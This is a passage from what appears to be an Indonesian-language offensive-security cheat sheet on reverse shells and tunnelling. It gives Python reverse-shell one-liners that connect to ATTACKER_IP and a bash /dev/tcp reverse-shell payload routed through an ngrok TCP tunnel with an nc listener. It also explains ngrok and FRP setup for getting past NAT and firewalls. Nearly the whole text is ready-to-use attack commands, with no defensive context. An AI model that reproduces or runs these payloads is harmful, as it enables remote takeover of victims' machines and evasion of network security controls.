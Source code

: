 #### Python Reverse Shell:
```python
# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Python3 version
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 2. Ngrok Setup

**Tujuan**: Tunneling untuk bypass NAT dan firewall

#### Installation:
```bash
# Download ngrok
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok

# Setup auth token
./ngrok authtoken YOUR_NGROK_TOKEN
```

#### Usage:
```bash
# Setup listener di local
nc -lvnp 4444

# Jalankan ngrok di terminal lain
./ngrok tcp 4444

# Ngrok akan memberikan URL seperti: tcp://0.tcp.ap.ngrok.io:12345
# Gunakan di payload:
bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/12345 0>&1
```

#### Advantages:
- ✅ Tidak perlu public IP
- ✅ HTTPS tunneling tersedia
- ✅ Built-in authentication
- ✅ Web interface untuk monitoring

### 3. FRP (Fast Reverse Proxy)

**Tujuan**: Lebih stabil untuk pivoting dan bypass NAT, perlu VPS

#### Server Setup (VPS):
```ini
# frps.ini
[common]
bind_port = 7000
token = YOUR_SECRET_TOKEN
dashboard_port = 7500
dashboard_user = admin
dashboard_pwd = admin123
```
